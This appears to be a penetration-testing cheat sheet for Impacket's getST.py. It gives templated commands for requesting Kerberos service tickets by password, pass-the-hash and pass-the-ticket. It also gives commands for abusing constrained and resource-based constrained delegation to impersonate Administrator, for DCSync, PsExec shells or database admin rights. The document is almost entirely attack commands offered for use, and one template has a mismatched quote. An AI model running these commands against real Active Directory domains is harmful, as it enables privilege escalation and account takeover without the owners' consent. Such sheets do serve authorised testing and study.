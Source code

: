 # getST.py (imp)

% impacket-kerberos, windows, kerberos, 88, delegation, TGS

#plateform/linux #target/remote  #cat/UTILS

## desc
```
request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate switch to request the ticket on behalf another user
```


## request TGS (creds)
```bash
getST.py -debug -spn <svc>/<target_fqdn> -dc-ip <dc_fqdn> <domain_fqdn>/<user>:'<password>'
```

## request TGS (pth)
```bash
getST.py -debug -spn <svc>/<target_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>
```

## request TGS (ptt)
```bash
KRB5CCNAME=<ccache> getST.py -debug -k -no-pass -spn <svc>/<target_fqdn> -dc-ip <domain_fqdn> <user>
```

#cat/ATTACK/DELEGATION 

## request Silver ticket (constrained delegation with protocol transition)
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```bash
getST.py -debug -spn <svc>/<target_fqdn> -impersonate <target_user|Administrator> -dc-ip <dc_ip> <domain_fqdn>/<user>:'<password>'
```

## Silver ticket (Resource-Based Constrained Delegation S4U2self)
using the machine account TGT
```bash
KRB5CCNAME=<computer_ccache>
getST.py -debug -self -impersonate "target_user|Administrator> -altservice "cifs/<target_fqdn>" -k -no-pass -dc-ip <dc_ip> <domain_fqdn>/'<computer>$' 
```
